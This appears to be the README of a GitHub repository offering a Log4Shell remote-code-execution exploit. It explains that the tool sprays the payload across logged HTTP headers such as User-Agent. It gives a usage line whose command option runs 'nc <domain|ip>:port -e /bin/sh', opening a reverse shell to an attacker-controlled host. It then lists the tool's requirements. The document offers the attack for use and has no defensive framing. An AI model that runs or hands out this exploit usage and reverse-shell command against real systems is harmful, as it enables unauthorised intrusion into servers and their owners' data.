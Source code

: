## Log4Shell RCE Exploit 

[![asciicast](https://asciinema.org/a/BSuuPRF6HXTe8rgReFmFIzvtj.svg)](https://asciinema.org/a/BSuuPRF6HXTe8rgReFmFIzvtj)

fully independent exploit does not require any 3rd party binaries.
The exploit spraying the payload to all possible logged HTTP Headers such as `X-Forwarding , Server-IP , User-Agent` 
### Usage
```shell
python main.py -i lhost -u http://target:targetport -c "nc <domain|ip>:port -e /bin/sh" -p lhttp_port -l lldap_port
 ```


### Requirements 
- java-8-openjdk
- pip install -r requirements.txt
- python3.6+
